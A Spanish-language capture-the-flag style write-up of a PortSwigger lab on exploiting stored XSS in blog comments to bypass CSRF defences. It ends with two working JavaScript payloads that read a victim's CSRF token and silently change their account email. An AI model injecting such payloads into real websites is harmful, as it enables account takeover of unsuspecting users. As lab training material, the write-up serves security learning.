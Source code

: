 ```yaml
---
title: XSS Lab 24
date: 2025-01-18 12:25:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting XSS to bypass CSRF defenses
image:
  path: /assets/img/XSS-Lab-24/Portswigger.png
---
```


## Skills

- Exploiting XSS to bypass CSRF defenses
  
## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `XSS almacenado` en la función de `comentarios del blog`. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `robar` un `token CSRF`, que luego podemos usar para `cambiar` la `dirección de correo electrónico` de alguien que vea los `comentarios` de la `publicación` del `blog`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las credenciales `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-24/image_1.png)

Si pulsamos sobre `My account` nos podemos `loguear` con las credenciales `wiener:peter`

![](/assets/img/XSS-Lab-24/image_2.png)

Vemos que podemos `cambiar` nuestro `email`

![](/assets/img/XSS-Lab-24/image_3.png)

Si `capturamos` la `petición` con `Burpsuite` vemos que se envía el `email` y el `token CSRF`

![](/assets/img/XSS-Lab-24/image_4.png)

Si `inspeccionamos` el `código fuente` de la web también podemos ver el `token CSRF`

![](/assets/img/XSS-Lab-24/image_5.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-24/image_6.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-24/image_7.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-24/image_8.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags HttpOnly y Secure`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-24/image_9.png)

Si vemos el `código fuente` observamos que al `publicar` un `comentario` también existe un `token CSRF`

![](/assets/img/XSS-Lab-24/image_10.png)

Para obtener el valor del `token CSRF` podemos hacerlo con `document.getElementsByName('csrf')[0].value`

![](/assets/img/XSS-Lab-24/image_11.png)

Aunque no podamos enviar información a nuestro servidor porque tiene las `flags HttpOnly y Secure` podemos usar el `XSS` para hacer que el `usuario víctima cambie su email o publique un mensaje con sus cookies`

```
<script>
    window.addEventListener('DOMContentLoaded', function() {
        var token = document.getElementsByName('csrf')[0].value;

        var data = new FormData();
        data.append('csrf', token);
        data.append('email', 'evil@hacker.net');

        fetch('/my-account/change-email', {
            method: 'POST',
            mode: 'no-cors',
            body: data
        });
    });
</script>
```

Otra `alternativa` sería usar `XMLHttpRequest`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get', '/my-account', true);
    req.send();

    function handleResponse() {
        var parser = new DOMParser();
        var doc = parser.parseFromString(this.responseText, 'text/html');
        var token = doc.querySelector('input[name="csrf"]').value;
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf=' + token + '&email=test@test.com');
    };
</script>
```
